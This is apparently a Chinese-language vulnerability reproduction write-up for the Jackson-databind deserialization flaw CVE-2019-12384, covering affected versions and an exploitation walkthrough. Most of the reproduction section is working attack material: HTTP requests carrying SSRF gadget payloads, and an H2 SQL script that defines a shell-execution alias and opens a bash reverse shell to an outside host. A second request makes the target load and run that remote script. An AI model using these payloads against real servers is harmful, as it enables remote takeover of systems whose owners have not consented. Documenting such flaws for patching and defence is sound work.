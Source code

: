 # Jackson-databind 远程代码执行 CVE-2019-12384

## 漏洞描述

多个 Redhat 产品受此漏洞影响，CVSS 评分为 8.1，漏洞利用复杂度高。

该漏洞是由于 Jackson 黑名单过滤不完整而导致，当开发人员在应用程序中通过 ObjectMapper 对象调用 enableDefaultTyping 方法时，程序就会受到此漏洞的影响，攻击者就可利用构造的包含有恶意代码的 json 数据包对应用进行攻击，直接获取服务器控制权限。

## 漏洞影响

受影响版本：

```
Jackson-databind 2.X < 2.9.9.1
```

不受影响版本：

```
Jackson-databind 2.9.9.1
Jackson-databind 2.10
```

## 漏洞复现

### SSRF

```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.136.129:7777/"}]
```

或者直接使用 dnslog 验证：

```
poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://jcqfpe.dnslog.cn/"}]
```

### RCE

首先在 vps 上放置一个.sql 的文件，内容如下：

```sql
CREATE ALIAS SHELLEXEC AS $ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$;
CALL SHELLEXEC('bash -i >& /dev/tcp/192.168.136.129/7777 0>&1')
```

然后发送 payload，请求远程的 sql 文件，进行 RCE

```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 164

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.136.129/exp.sql'"}]

```
